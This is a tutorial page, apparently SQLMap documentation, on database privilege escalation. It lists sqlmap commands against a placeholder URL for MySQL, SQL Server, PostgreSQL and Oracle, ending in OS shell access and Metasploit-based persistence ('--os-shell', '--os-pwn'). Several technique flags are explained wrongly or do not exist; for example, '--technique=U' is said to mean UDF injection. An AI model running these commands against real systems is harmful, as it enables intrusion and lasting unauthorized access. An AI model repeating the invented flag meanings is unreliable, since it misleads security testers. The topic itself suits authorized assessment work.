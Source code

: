 ```yaml
---
title: Privilege Escalation
description: Learn how to perform privilege escalation using SQLMap's advanced techniques
---
```


SQLMap provides capabilities to check for and potentially exploit privilege escalation opportunities in various database management systems. These techniques can help identify and leverage excessive privileges during authorized security assessments.

## Checking Current Privileges

### Identifying Database User Privileges

To check the current database user's privileges:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --privileges
```

This command displays all privileges assigned to the current database user.

### Checking DBA Status

To verify if the current user has database administrator privileges:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --is-dba
```

This returns a boolean result indicating whether the current user has DBA privileges.

## Automated Privilege Escalation

SQLMap can attempt to automatically escalate privileges:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc
```

This command attempts various privilege escalation techniques based on the detected DBMS.

## DBMS-Specific Techniques

### MySQL Privilege Escalation

For MySQL, SQLMap can attempt:

1. User-Defined Function (UDF) injection:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=mysql --technique=U
```

2. MOF (Managed Object Format) exploitation on Windows systems:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=mysql --technique=M
```

### Microsoft SQL Server Privilege Escalation

For SQL Server, SQLMap can attempt:

1. `xp_cmdshell` re-enabling:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=mssql
```

2. SQL Server Agent job creation (requires specific privileges):

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=mssql --technique=Q
```

### PostgreSQL Privilege Escalation

For PostgreSQL, SQLMap can attempt:

1. Custom function creation:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=postgresql
```

2. Large object exploitation:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=postgresql --technique=L
```

### Oracle Privilege Escalation

For Oracle, SQLMap can attempt:

1. PL/SQL injection:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=oracle
```

2. Java class loading:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=oracle --technique=J
```

## Gaining System Access

After privilege escalation, you can attempt to gain system access:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --os-shell
```

This combines privilege escalation with OS shell access attempts.

## Maintaining Access

To establish persistent access after privilege escalation:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --os-pwn
```

This attempts to create a more persistent connection using Metasploit integration.


## Troubleshooting Privilege Escalation

If privilege escalation attempts fail:

1. Verify the injection point supports stacked queries
2. Check if the database user has sufficient base privileges
3. Examine if security controls are preventing escalation
4. Try different techniques with the --technique parameter
5. Use verbose mode (-v) to get more detailed information about the attempts

Remember that privilege escalation success depends on:
- The specific DBMS version and configuration
- Existing security patches and controls
- The initial privileges of the compromised database user
- Operating system security settings
